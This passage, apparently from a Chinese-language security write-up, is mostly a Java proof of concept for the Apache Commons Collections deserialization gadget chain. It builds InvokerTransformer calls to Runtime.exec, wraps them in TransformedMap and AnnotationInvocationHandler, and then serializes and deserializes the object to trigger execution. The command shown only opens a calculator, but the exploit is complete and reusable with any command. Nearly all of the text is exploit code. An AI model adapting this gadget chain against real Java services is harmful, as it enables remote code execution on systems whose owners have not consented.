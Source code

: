 ```
                }
            }
        }
    }
}
```

最终的测试Poc
```
public class SerialBug {

    public static void main(String[] args) throws Exception {
        // 序列化
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(new FileOutputStream(new File("SerialBug")));
        objectOutputStream.writeObject(get());
        objectOutputStream.flush();
        objectOutputStream.close();

        // 反序列化
        ObjectInputStream objectInputStream = new ObjectInputStream(new FileInputStream(new File("SerialBug")));
        objectInputStream.readObject();
        objectInputStream.close();
    }

    public static Object get() throws NoSuchMethodException, IllegalAccessException, InvocationTargetException, InstantiationException, ClassNotFoundException {
        Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[] { String.class, Class[].class }, new Object[] { "getRuntime", new Class[0] }),
                new InvokerTransformer("invoke", new Class[] { Object.class, Object[].class }, new Object[] { null, new Object[0] }),
                new InvokerTransformer("exec", new Class[] { String.class }, new Object[] { "open /System/Applications/Calculator.app" }) };

        Transformer transformerChain = new ChainedTransformer(transformers);

        Map map = new HashMap();
        map.put("KEY", "VALUE");

        Map<String, Object> transformedMap = TransformedMap.decorate(map, null, transformerChain);

        Class cls = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor ctor = cls.getDeclaredConstructor(Class.class, Map.class);
        ctor.setAccessible(true);
        Object instance = ctor.newInstance(Retention.class, transformedMap);
        return instance;
    }
}
```

